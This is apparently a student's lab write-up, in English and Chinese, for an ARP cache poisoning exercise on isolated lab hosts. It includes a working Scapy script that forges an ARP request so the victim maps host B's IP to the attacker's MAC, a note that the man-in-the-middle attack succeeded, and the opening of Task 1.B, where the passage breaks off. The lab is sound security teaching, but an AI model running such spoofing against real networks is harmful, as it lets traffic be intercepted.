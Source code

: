 
We can check a computer’s ARP cache using the following command.
```
$ arp -n
```

There are many ways to conduct ARP cache poisoning attack.
## Task 1.A (using ARP request).
**On host M, construct an ARP request packet to map B’s IP address to M’s MAC address. Send the packet to A and check whether the attack is successful or not.**

首先，在M上的volume文件夹下，写程序，让A的arp表中B的ip解析到M的mac程序完整代码如图，注意主要是mac和ip对应关系的填充
```python
#!/usr/bin/env python3
from scapy.all import *

# On host M, construct an ARP request packet to map B’s IP address to M’s MAC address. 
# victim:10.9.0.5
# goal: map 10.9.0.6 to 02:42:0a:09:00:69

print("SEDING ARP PACKET.......")
ether = Ether()
ether.dst ="ff:ff:ff:ff:ff:ff" 
ether.src ="02:42:0a:09:00:69" 

arp = ARP()
arp.op = 1 # 1 for ARP request; 2 for ARP reply

arp.hwsrc="02:42:0a:09:00:69" 
arp.psrc="10.9.0.6"

arp.hwdst="00:00:00:00:00:00" 
arp.pdst="10.9.0.5"

pkt = ether/arp
sendp(pkt)
```

然后在M内执行程序，注意权限，发起中间人攻击
![[大三下/网络与信息安全/实验二/attachments/6.png]]

查看A 的表
![[大三下/网络与信息安全/实验二/attachments/7.png]]
查看A中arp表中B的mac地址已经是我们py中写的，中间人攻击成功

## Task 1.B (using ARP reply).
On host M, construct an ARP reply packet to map B’s IP address to
M’s MAC address. Send the packet to A and check whether the attack is successful or not. Try the
attack under the following two scenarios, and report the results of your attack:

	- Scenario 1: B’s IP is already in A’s cache.
